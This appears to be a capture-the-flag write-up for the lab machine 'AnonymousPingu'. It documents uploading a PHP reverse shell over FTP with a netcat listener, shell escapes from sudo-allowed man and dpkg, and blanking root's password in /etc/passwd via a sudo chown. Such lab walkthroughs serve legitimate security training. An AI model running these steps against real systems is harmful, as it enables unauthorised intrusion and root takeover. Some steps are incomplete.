



# AnonymousPingu

## Port Enumeration

We started our scan using the Nmap tool during the discovery phase. We found the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
22/tcp open  ssh     syn-ack ttl 64

```

## Examining ports

More precise scan of the FTP port:

```ruby
    nmap -p21 -T4 --min-rate 1000 --script vuln,ftp-anon,ftp-bounce,ftp-syst 172.17.0.2
```



We see what appears the file called secretitopicaron.zip.

Similarly, I scanned the SSH port, but didn't find anything important

## Analyzing "secretitopicaron.Zip"

First we need to extract the hash from the .zip file. we use `zip2jonh` tool:

```ruby
zip2john secretitopicaron.zip > hash.txt
```


## Intrusion

For the intrusion, I used this GitHub script from "pentestmonkey"

https://github.com/pentestmonkey/php-reverse-shell

Therefore, I used the ftp tool to upload the reverse.php file, configuring our IP and our port, and using the netcat tool to make the connection.



If we listen on port 1234 with netcat and execute the .php file in the browser, it returns the shell

```ruby
nc -lvnp 1234
```


Therefore, we are authenticated as the "data" user

# Tratamiento de la TTY

To make it more comfortable for us, we're going to treat the terminal so that there are no errors in some commands and they work.

For this, we first execute the following order:

```ruby 
script /dev/null -c bash
```

We press ctrl + Z to exit the terminal and do the following commands:

```ruby 
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
```

We will have a more comfortable terminal.

## Escalation privilege

For privilege escalation, we will use the following command:

```ruby
sudo -l
``
We see the commands we can execute as root or other users using sudo: 

```ruby
$ sudo -l
Matching Defaults entries for www-data on debddace088e:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on debddace088e:
    (pingu) NOPASSWD: /usr/bin/man
```

Therefore, if we execute the following command, we can do it as the pingu user

```ruby
sudo -u pingu man man
```

Inside the manual, we can execute the following:

```ruby
!/bin/bash
```

We see that we change users and access as pingu


If we execute the previous order, we see new commands that we can execute as the gladys user

```ruby
Matching Defaults entries for pingu on 34882fa66e15:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User pingu may run the following commands on 34882fa66e15:
    (gladys) NOPASSWD: /usr/bin/nmap
    (gladys) NOPASSWD: /usr/bin/dpkg

```

If we go to the GTObins page, we see that we can exploit it in the following way:

```ruby
sudo -u gladys dpkg -l
!/bin/sh
```

We gain access with the "gladys" user in a similar way to the previous one.




If we execute the `sudo -l` command again

```ruby
Matching Defaults entries for gladys on 34882fa66e15:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User gladys may run the following commands on 34882fa66e15:
    (root) NOPASSWD: /usr/bin/chown
```

To do this escalation, we can do it in several ways. The simplest way is to try to edit the `/etc/passwd` file, removing the check when the root user's password is requested.

For this, we have to give permission to the gladys user and then overwrite the file

```ruby
sudo /usr/bin/chown $(id -un):$(id -gn) /etc/passwd
```

Then with the `sed` tool we remove the "x" character that is in the root line, we create a temporary file in /tmp.

```ruby
sed 's/^root:[^:]*:/root::/' /etc/passwd > /tmp/passwd.tmp
```

Finally, we overwrite the `/etc/passwd` file

```ruby 
cp /tmp/passwd.tmp /etc/passwd
```

